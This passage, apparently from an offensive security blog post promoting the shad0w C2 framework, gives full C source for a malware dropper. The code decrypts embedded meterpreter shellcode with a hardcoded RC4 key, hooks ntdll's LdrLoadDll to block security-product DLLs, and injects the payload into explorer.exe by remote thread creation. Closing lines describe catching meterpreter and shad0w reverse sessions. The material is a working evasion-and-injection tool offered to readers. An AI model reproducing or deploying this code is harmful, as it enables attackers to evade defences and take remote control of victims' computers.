  0x26, 0xfa, 0xc3, 0xad, 0xd1, 0x2c, 0x57, 0x32, 0xbe, 0x3a, 0x41, 0x18,
  0x55, 0x87, 0x74, 0xc0, 0xbf, 0x26, 0xd8, 0x01, 0xf0, 0x15, 0xdd, 0x2b,
  0xe6, 0x35, 0x7a, 0xcc, 0x18, 0x83, 0xf4, 0xdd, 0xc9, 0x75, 0x68, 0x12,
  0x6d, 0x19, 0x10, 0x2b, 0xb6, 0x89, 0x20, 0x35, 0xd4, 0x81, 0x36, 0xe2,
  0x4d, 0xf0, 0xfb, 0x1d, 0x0f, 0xfa, 0xb6, 0x9e, 0x74, 0x2d, 0x51, 0x33,
  0x79, 0xa8, 0xc1, 0xda, 0x55, 0x14, 0x87, 0x44, 0xc2, 0x19, 0x28, 0x28,
  0x8a, 0xe9, 0x24, 0x01, 0x99, 0xae, 0xa4, 0xa1, 0xdf, 0xb1, 0xcf, 0x87,
  0x54, 0x93, 0x51, 0xcc, 0xb7, 0x02, 0x4c, 0x2e, 0xeb, 0xdc, 0x7c, 0x72,
  0xbe, 0x4b, 0x2c, 0xaa, 0x34, 0x44, 0x6f, 0xbb, 0xc5, 0x79, 0x20, 0xb9,
  0x67, 0x52, 0x1e, 0x28, 0x71, 0x40, 0x72, 0xa6, 0x5b, 0x4f, 0xa0, 0xc2,
  0x1e, 0x2e, 0x6f, 0x48, 0x16, 0x1a, 0x3a, 0xfd, 0xb5, 0x9b, 0x84, 0x3c,
  0x9c, 0x4c, 0x61, 0x63, 0xe0, 0x34, 0x57, 0x24, 0xab, 0x6c, 0x3e, 0xb3,
  0x8a, 0x02, 0x74, 0x59, 0x27, 0x20, 0x0f, 0xd5, 0x8e, 0x1e, 0x5c, 0x43,
  0x61, 0xf0, 0x4d, 0x5b, 0xb3, 0x00, 0xea, 0x18, 0xb2, 0xef, 0x43, 0x94,
  0xd8, 0x5d, 0x5d, 0x4b, 0xc6, 0xd9, 0xed, 0x2f, 0xca, 0xed, 0xe1, 0x79,
  0x0c, 0xa1, 0x46, 0x77, 0x78, 0x15, 0x87, 0x9d, 0xea, 0x9e, 0xa6, 0x8b,
  0x10, 0x29, 0x49, 0x28, 0xca, 0xc1, 0x07, 0x19, 0x9b, 0x54, 0xb2, 0x1b,
  0xd2, 0x9b, 0xbc, 0x7d, 0x9c, 0x14, 0x97, 0x43, 0x7b, 0x33, 0x41, 0xd3,
  0x26, 0x7f, 0xe9, 0xf1, 0xbf, 0xfb, 0xd8, 0xc5, 0x96, 0x19, 0x5e, 0x65,
  0xa3, 0xb1, 0x18, 0x44, 0x16, 0xc1, 0x63, 0x72, 0xc8, 0x53, 0xa5, 0x74,
  0xee, 0x2c, 0x7c, 0xe2, 0x0f, 0xe4, 0x11, 0x91, 0x4d, 0xe3, 0xa4, 0xa6,
  0xd9, 0xf0, 0x59, 0x97, 0xbb, 0x86, 0x1e, 0xc4, 0x68, 0x64, 0x4b, 0x45,
  0x00, 0xf0, 0x78, 0xac, 0x98, 0x21, 0xfe, 0xd3, 0xdd, 0xe8, 0xa3, 0xca,
  0x0d, 0x77, 0xb8, 0xab, 0x7c, 0xe2, 0x64, 0x26, 0x37, 0x76, 0x85, 0x92,
  0x91, 0x2e, 0x62, 0x25, 0x6b, 0x3e, 0xd5, 0xf2, 0xf0, 0x9a, 0xda, 0xc3,
  0x60, 0x90, 0xca, 0x00, 0x04, 0x19
};
unsigned int encmeter_bin_len = 510;
/****************************************************************************************************/

NTSTATUS __stdcall _LdrLoadDll(PWSTR SearchPath OPTIONAL, PULONG DllCharacteristics OPTIONAL, PUNICODE_STRING DllName, PVOID *BaseAddress)
{
    INT i;
    DWORD dwOldProtect;
    BOOL bAllow = FALSE;
    DWORD dwbytesWritten;
    CHAR cDllName[MAX_PATH];

    // change to a char
    sprintf(cDllName, "%S", DllName->Buffer);

    for (i = 0; I < dwAllowDllCount; i++)
    {
        // is it on the whitelist
        if (strcmp(cDllName, cAllowDlls[i]) == 0)
        {
            bAllow = TRUE;

            printf("Allowing DLL: %s\\n", cDllName);

            // repatch LdrLoadDll and call it
            VirtualProtect(lpAddr, sizeof(OriginalBytes), PAGE_EXECUTE_READWRITE, &dwOldProtect);
            memcpy(lpAddr, OriginalBytes, sizeof(OriginalBytes));
            VirtualProtect(lpAddr, sizeof(OriginalBytes), dwOldProtect, &dwOldProtect);

            LdrLoadDll_ LdrLoadDll = (LdrLoadDll_)GetProcAddress(LoadLibrary("ntdll.dll"), "LdrLoadDll");

            LdrLoadDll(SearchPath, DllCharacteristics, DllName, BaseAddress);

            // then hook it again
            HookLoadDll(lpAddr);
        }

    }

    if (!bAllow)
    {
        printf("Blocked DLL: %s\\n", cDllName);
    }

    return TRUE;
}

VOID HookLoadDll(LPVOID lpAddr)
{
    DWORD oldProtect, oldOldProtect;
    void *hLdrLoadDll = &_LdrLoadDll;

    // our trampoline
    unsigned char boing[] = { 0x49, 0xbb, 0xde, 0xad, 0xc0, 0xde, 0xde, 0xad, 0xc0, 0xde, 0x41, 0xff, 0xe3 };

    // add in the address of our hook
    *(void **)(boing + 2) = &_LdrLoadDll;

    // write the hook
    VirtualProtect(lpAddr, 13, PAGE_EXECUTE_READWRITE, &oldProtect);
    memcpy(lpAddr, boing, sizeof(boing));
    VirtualProtect(lpAddr, 13, oldProtect, &oldProtect);

    return;
}

BOOL DecryptShellcode()
{
    BOOL bSuccess = TRUE;

    HCRYPTKEY hCryptoKey;
    HCRYPTHASH hCryptHash;
    HCRYPTPROV hCryptoProv;

    BYTE* pbKey = "HideMyShellzPlz?";
    DWORD dwLen = strlen(pbKey);

    // get the crypto context
    bSuccess = fnCryptAcquireContextW(&hCryptoProv, NULL, L"Microsoft Enhanced RSA and AES Cryptographic Provider", PROV_RSA_AES, CRYPT_VERIFYCONTEXT);
    if (!bSuccess)
    {
        printf("CryptAcquireContextW\\n");
        goto CLEANUP;
    }

    // init an create the hashing handle
    bSuccess = fnCryptCreateHash(hCryptoProv, CALG_SHA_256, 0, 0, &hCryptHash);
    if (!bSuccess)
    {
        printf("CryptCreateHash\\n");
        goto CLEANUP;
    }

    // add the key to the hash object
    bSuccess = fnCryptHashData(hCryptHash, pbKey, dwLen, 0);
    if (!bSuccess)
    {
        printf("CryptHashData\\n");
        goto CLEANUP;
    }

    // gen the session keys from the hash
    bSuccess = fnCryptDeriveKey(hCryptoProv, CALG_RC4, hCryptHash, 0,&hCryptoKey);
    if (!bSuccess)
    {
        printf("CryptDeriveKey\\n");
        goto CLEANUP;
    }

    // decrypt the buffer
    bSuccess = fnCryptDecrypt(hCryptoKey, NULL, FALSE, 0, (BYTE*)encmeter_bin, &encmeter_bin_len);
    if (!bSuccess)
    {
        printf("CryptDecrypt: %d\\n", GetLastError());
        goto CLEANUP;
    }

    goto CLEANUP;

    CLEANUP:
        fnCryptReleaseContext(hCryptoProv, 0);
        fnCryptDestroyKey(hCryptoKey);
        fnCryptDestroyHash(hCryptHash);

        return bSuccess;
}

DWORD FindExplorer()
{
    PROCESSENTRY32 pe32 = {0};
    pe32.dwSize = sizeof(PROCESSENTRY32);

    // take snapshot
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if(hSnapshot)
    {
        // enum the processes found
        if(Process32First(hSnapshot, &pe32))
        {
            do
            {
                // check if its explorer, if it is then give the pid
                if (strcmp(pe32.szExeFile, "explorer.exe") == 0)
                {
                    return pe32.th32ProcessID;
                }
            } while(Process32Next(hSnapshot, &pe32));
            CloseHandle(hSnapshot);
        }
    }

    return -1;
}

int main(int argc,  char const *argv[])
{
    DWORD dwPid;
    INITIAL_TEB InitTeb;
    LPVOID lpBuffer = NULL;
    CLIENT_ID uPid = { 0 };
    HANDLE hThread, hProcess;
    OBJECT_ATTRIBUTES ObjectAttributes;

    // crypto stuff
    fnCryptAcquireContextW = (CryptAcquireContextW_)GetProcAddress(LoadLibrary("advapi32.dll"), "CryptAcquireContextW");
    fnCryptCreateHash = (CryptCreateHash_)GetProcAddress(LoadLibrary("advapi32.dll"), "CryptCreateHash");
    fnCryptHashData = (CryptHashData_)GetProcAddress(LoadLibrary("advapi32.dll"), "CryptHashData");
    fnCryptDeriveKey = (CryptDeriveKey_)GetProcAddress(LoadLibrary("advapi32.dll"), "CryptDeriveKey");
    fnCryptDecrypt = (CryptDecrypt_)GetProcAddress(LoadLibrary("advapi32.dll"), "CryptDecrypt");
    fnCryptReleaseContext = (CryptReleaseContext_)GetProcAddress(LoadLibrary("advapi32.dll"), "CryptReleaseContext");
    fnCryptDestroyKey = (CryptDestroyKey_)GetProcAddress(LoadLibrary("advapi32.dll"), "CryptDestroyKey");
    fnCryptDestroyHash = (CryptDestroyHash_)GetProcAddress(LoadLibrary("advapi32.dll"), "CryptDestroyHash");

    // decrypt the shellcode
    if (!DecryptShellcode())
    {
        printf("[!] Failed to decrypt shellcode\\n");
        return -1;
    }

    // get addresss of where the hook should be
    lpAddr = (LPVOID)GetProcAddress(GetModuleHandle("ntdll.dll"), "LdrLoadDll");

    // save the original bytes
    memcpy(OriginalBytes, lpAddr, 13);

    // set the hook
    HookLoadDll(lpAddr);

    // find the pid of explorer.exe
    dwPid = FindExplorer();
    if (dwPid == -1)
    {
        printf("[!] Failed to find process\\n");
        return -1;
    }

    // set the pid to get a handle to
    uPid.UniqueProcess = (HANDLE)dwPid;
    uPid.UniqueThread = NULL;

    // get a handle on the process
    InitializeObjectAttributes(&ObjectAttributes, NULL, 0, NULL, NULL);
    NtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &ObjectAttributes, &uPid);

    // alloc memory
    NtAllocateVirtualMemory(hProcess, &lpBuffer, 0, &encmeter_bin_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // write the shellcode to the process
    NtWriteVirtualMemory(hProcess, lpBuffer, encmeter_bin, encmeter_bin_len, NULL);

    // start the shellcode
    NtCreateThreadEx(&hThread, 0x1FFFFF, NULL, hProcess, (LPTHREAD_START_ROUTINE)lpBuffer, NULL, FALSE, NULL, NULL, NULL, NULL);
    if (hThread == INVALID_HANDLE_VALUE)
    {
        printf("[!] Failed to inject shellcode\\n");
        return -1;
    }

    printf("[+] Successfully injected shellcode\\n");

    return 0;
}
```

And when we execute our new dropper



We can catch a meterpreter session



Or if we used a `windows/x64/meterpreter/reverse_https` payload with a set `StagerURILength` we can catch a shad0w beacon as well.



Hopefully some of these techniques could be of use to you. If you are interested and want to research further, my C2 Framework [shad0w](https://github.com/bats3c/shad0w) implements many of these techniques and more. Any questions feel free to DM me on twitter [@\_batsec\_](https://twitter.com/_batsec_)
